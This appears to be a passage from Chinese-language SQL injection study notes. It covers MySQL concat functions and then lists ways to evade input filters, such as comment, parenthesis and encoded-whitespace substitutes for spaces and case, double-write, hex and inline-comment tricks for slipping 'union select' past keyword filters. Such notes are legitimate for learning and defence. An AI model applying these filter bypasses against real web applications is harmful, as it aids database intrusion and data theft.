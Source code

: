 ![image-20220330115324208](../../bookimages/image-20220330115324208.png)



concat_ws() 与 group_concat()

````
concat(str1,str2,…) //没有分隔符得连接字符串,
concat_ws(separator,str1,str2,…) //含有分隔符得连接字符串
group_concat(str1,str2,…) //连接一个组的所有字符串，并以逗号分割每条数据
````

![image-20220330153102208](../../bookimages/image-20220330153102208.png)

![image-20220330153409685](../../bookimages/image-20220330153409685.png)

![image-20220330160344693](../../bookimages/image-20220330160344693.png)

### 2.6 常见过滤字符及绕过

当空格被过滤后，可通过以下方法绕过：

```
注释代替空格
select * from tb1 where name='asd';
等价：
select/**/*/**/from/**/tb1/**/where/**/name='asd';

括号代替空格
mysql中可用()来代替空格。可以用括号包裹非数据库关键字
select name from tb1 where name ='asd';
等价：
select(name)from(tb1)where(name)=('asd');

引号代替空格
mysql中可用单引号或双引号来代替空格。
select name from tb1 where name ='asd' and 1=1;
等价：
select name from tb1 where name ='asd'and'1'='1';

特殊字符代替空格
如下特殊字符可代替空格：
%09	水平定位符号%0a	换行符%0c	换页符%0d	回车%0b	垂直定位符号

用Tab代替空格 
```

过滤union\\select

```
绕过示例：过滤代码 union select user,password from users
绕过方式 1 && (select user from users where userid=1)='admin'
十六进制字符绕过select ——> selec\x74union——>unio\x6e
大小写绕过SelEct
双写绕过selselectectuniunionon
urlencode，ascii(char)，hex，unicode编码绕过关键字
内联绕所有/*!union*//*!select*/ 
```
